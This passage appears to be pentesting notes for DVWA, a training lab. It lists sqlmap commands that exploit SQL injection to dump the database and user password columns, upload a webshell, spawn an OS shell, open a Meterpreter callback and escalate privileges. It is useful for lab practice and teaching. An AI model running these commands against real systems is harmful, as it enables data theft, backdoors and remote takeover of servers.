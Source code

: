 ### 3.1 - Dump the whole database

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U -D dvwa --dump-all
```

### 3.2 - Dump the specific tables and columns

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U -D dvwa -T users -C user,password --dump
```

## 04 - Webshell

### 4.1 - Upload a specific Webshell

Refer to this [[Pentesting Phases/Initial Access/Callback Shells/Webshells|link]] to generate interactive weevely webshells and click [[Weevely|here]] for post exploitation section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --file-write="/path/to/webshell.php" --file-dest="/var/www/html/dvwa/shell.php"
```

### 4.2 - Spawn an Interactive Webshell

TODO: Provide **\[INFO\]** logs and a screenshot to demonstrate a different between a file web stager (the uploader file) and a backdoor (an interactive shell)

Great thing about SQLMap that not only it uploads an interactive **web backdoor (the webshell)** it also comes with the **web file stager (the uploader)**.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --os-shell --web-root="/var/www/html/dvwa/"
```

### 4.3 - Spawn a Meterpreter Shell

- Start a shell handler listener in Metasploit to retrieve a callback meterpreter session.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --os-pwn --web-root="/var/www/html/dvwa/"
```

Note: when using the `--priv-esc` flag this is for targeting Windows operating systems to automate using the `getsystem` function for impersonation.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --random-agent --os-pwn --web-root="/var/www/html/dvwa/" --priv-esc
```
### 4.4 - Execute OS Command
